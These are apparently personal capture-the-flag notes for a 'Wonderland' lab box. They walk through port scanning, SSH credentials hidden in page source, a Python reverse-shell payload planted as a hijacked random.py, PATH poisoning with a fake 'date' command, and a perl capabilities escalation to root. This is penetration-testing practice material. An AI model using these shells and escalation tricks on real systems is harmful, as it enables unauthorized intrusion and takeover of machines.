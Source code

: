 ## recon

### nmap_scan
![[wonderland_nmap.png]]
> Nmap scan of target box

Ports open:
-	22 (SSH)
-	80 (Web Server)


### directory scanning

Scanning for directories on the webserver leads to `http://<ip>/r/a/b/b/i/t/`.

![[alice_homepage.png]]

#### Source code

Checking the source code for this page reveals a string that looks like an SHH user/pass combination.

`style="display:none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Alice > Rabbit

Using this combination as an SSH user/pass combination gains us access to the target machine.

![[wonderland_ssh_alice.png]]


### sudo -l

Running `sudo -l` tells us we can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`.

![[alice_sudo-l.png]]


Checking the file `walrus_and_the_carpenter.py` shows us that it is importing the library file `random.py`.

![[walrus_random.png]]

We can create our own random.py that the file will read first before the one in `/var/lib/` that spawns us a shell as user rabbit.

### Create random.py to throw shell as rabbit to listener.

Creating a new `random.py` file in the home directory allows us to inject malicious code into the running of `walrus_and_the_carpenter.py`. ([[Concepts#path_poisoning]])

Created `random.py` file:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host_addr>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Now when the python code is run using sudo to change to the user `rabbit` we gain a shell as `rabbit`:

## Rabbit > Hatter

Enumerating the home directory of user `rabbit` gives us a file called `teaParty`. This file has an SUID bit set by the user `hatter`. Running this file gives us a segmentation so it could be vulnerable to an overflow attack. Trying to read the contents of the file gives away that it is using the `date` command. We can poison the path with a new date file that contains `/bin/sh` in order to gain a shell as `hatter`. ([[Concepts#path_poisoning]])

`echo "/bin/sh" > /tmp/date`
`export PATH=/tmp:$PATH`

Running the `teaParty` file now will spawn a shell as `hatter`.

##### SHH in as hatter for better shell

Inside hatters home directory is a file `password.txt`. This can be used to SSH back into the machine for a nicer environment for use.

## Hatter > Root

### Run linpeas on target machine, shows pearl as able to set SUID bit

#### GTFO bins for pearl, use cap_set payload 

##### read root.txt in /home/alice/ and user.txt in /home/root/ (everything is upside down here)


## General Notes

alice password: HowDothTheLittleCrocodileImproveHisShiningTail

hatter password: 